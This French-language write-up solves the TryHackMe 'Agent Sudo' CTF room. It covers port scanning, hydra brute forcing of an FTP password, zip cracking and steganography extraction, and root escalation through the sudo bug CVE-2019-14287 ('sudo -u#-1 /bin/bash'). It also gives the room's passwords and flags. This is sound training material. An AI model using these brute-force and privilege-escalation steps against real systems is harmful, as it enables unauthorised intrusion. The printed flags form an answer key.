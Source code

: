 # THM - Agent Sudo
<p align="center">
  <img width="300" height="300" src="logo.png">
</p>

Description | Difficulté | Lien
-------------|------------|-----
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. | Easy 🟢| [THM](https://tryhackme.com/room/agentsudoctf)

Enumeration de port :
```txt
nmap -A <ip>
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 05:12 EDT
Nmap scan report for <ip>
Host is up (0.040s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.11 seconds
```

Il y a 3 ports ouverts, le port 21 qui héberge un FTP, le port 22 pour le SSH et le port 80 avec un serveur Web.

> **Note**
> Première question : How many open ports ? ``3``

Sur la page d'accueil du site, il y a le message suivant :
```txt
Dear agents,
Use your own codename as user-agent to access the site.
From,
Agent R
```
Il peut être déduis de ce message qu'il nous faut renseigner un user-agent différents pour afficher de nouvelles informations. L'user-agent doit correspondre à un nom de code. En regardant la signature de l'agent on remarque qu'il se nomme "Agent R" donc son nom de code est R.

> **Note** 
> Deuxième question : How you redirect yourself to a secret page ? ``user-agent``

En essayer les 26 lettres de l'alphabet avec l'aide du plugin [User-Agent Switcher](https://mybrowseraddon.com/useragent-switcher.html), il y a un nouveau message qui apparait avec l'user-agent "C".

Le message est le suivant :
```txt
Attention chris,
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
From,
Agent R
```

> **Note** 
> Troisième question : What is the agent name ? ``chris``

Le message indique que le mot de passe de Chris est faible. Il faut donc le brute force, à l'aide de la commande suivante :
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<ip>
```

> **Note**
> Quatrième question : FTP password ``crystal``

Grace à ce mot de passe, il est possible de se connecter au service ftp.
A la racine il y a 3 fichiers.
```txt
cute-alien.jpg
cutie.png
To_agentJ.txt
```
Dans le fichier texte, il y a écrit :
```txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Donc les informations importantes sont stocké dans les photos. Grace à Binwalk, de l'image cutie.png peut être extrait un fichier zip et cracké le mot de passe du Zip
```bash
binwalk --extract cutie.png
zip2john <fichierzip> > hash.txt
john hash.txt
```

> **Note**
> Cinquième question : Zip file password ``alien``

On a maintenant un fichier texte qui à un message caché en base64 :
```txt
QXJlYTUx
  =
Area51
```
> **Note**
> Sixième question : steg password ``Area51``

Lorsque l'on utilise steghide sur le fichier cute-alien.jpg, celui ci demande un mot de passe. En entrant ``Area51`` nous avons message.txt qui nous est révelé.

```txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

> **Note**
> Septième question : Who is the other agent (in full name) ? ``james``

> **Note**
> Huitième question : SSH password ``hackerrules!``

La dernière étape est de se connecter en SSH avec l'utilisateur james.
A la racine du home de james, il y a une photo qu'il va falloir télécharger et le flag user.

> **Note**
> Neuvième question : What is the user flag? ``b03d975e8c92a7c04146cfa7a5a313c7``

Avec la photo Alien_autopsy.jpg, il faut faire du reverse image search pour tomber sur l'évenement qu'il immortalise.

> **Note**
> Dixième question : What is the incident of the photo called ? ``Roswell alien autopsy``

En regardant les droits sudo, nous avons cette règle :
```bash
(ALL, !root) /bin/bash
```

> **Note**
> Onzième question : CVE number for the escalation ``CVE-2019-14287``

En tapant la commande suivante, nous accedons à l'utilisateur root :
```bash
sudo -u#-1 /bin/bash
```

> **Note**
> Douzième question : What is the root flag ? ``b53a02f55b57d4439e3341834d70c062``

> **Note**
> Question bonus : Who is Agent R ? ``DesKel``
